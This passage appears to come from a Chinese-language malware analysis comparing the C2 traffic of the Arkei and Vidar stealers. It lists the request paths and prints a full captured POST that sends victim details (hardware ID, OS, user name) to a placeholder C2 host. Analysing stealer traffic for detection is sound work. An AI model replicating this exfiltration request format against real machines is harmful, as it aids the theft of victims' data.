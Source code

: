 **Arkei HTTP请求**

```
/index.php        &lt;- 配置信息
ip-api.com/line/  &lt;- 获取网络配置信息
/index.php        &lt;- 向C2上传受害者信息
```

**配置参数**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0158f28b3eebbd6ece.png)

如果你想弄清楚Arkei中各配置参数的含义，可以参考下表：

[![](https://p1.ssl.qhimg.com/t0179079cc93bf70d05.png)](https://p1.ssl.qhimg.com/t0179079cc93bf70d05.png)

可以看到，POST发生了轻微的变化，Vidar添加了配置文件名、版本等新字段。

我们可以通过PCAP数据流来更清楚的看出request中的异同，可以看到除了除了版本信息和配置信息，其他部分都是相同的（不同之处用星号标记)。如果我们分析更老的版本，将发现除了请求的路径之外，没有其他区别

**最后的POST请求—Vidar**

```
POST / HTTP/1.1
Accept: text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1
Accept-Language: ru-RU,ru;q=0.9,en;q=0.8
Accept-Charset: iso-8859-1, utf-8, utf-16, *;q=0.1
Accept-Encoding: deflate, gzip, x-gzip, identity, *;q=0
Content-Type: multipart/form-data; boundary=1BEF0A57BE110FD467A
Content-Length: 66809
Host: some.lovely.vidar.c2.with.love
Connection: Keep-Alive
Cache-Control: no-cache

--1BEF0A57BE110FD467A
Content-Disposition: form-data; name="hwid"

90059c37-1320-41a4-b58d-2b75a9850d2f
--1BEF0A57BE110FD467A
Content-Disposition: form-data; name="os"

Windows 7 Professional
--1BEF0A57BE110FD467A
Content-Disposition: form-data; name="platform"

x86
**--1BEF0A57BE110FD467A**
**Content-Disposition: form-data; name="profile"**

**XXX &lt;- Random Int**
--1BEF0A57BE110FD467A
Content-Disposition: form-data; name="user"

admin
--1BEF0A57BE110FD467A
Content-Disposition: form-data; name="cccount"

0
--1BEF0A57BE110FD467A
Content-Disposition: form-data; name="ccount"

0
--1BEF0A57BE110FD467A
```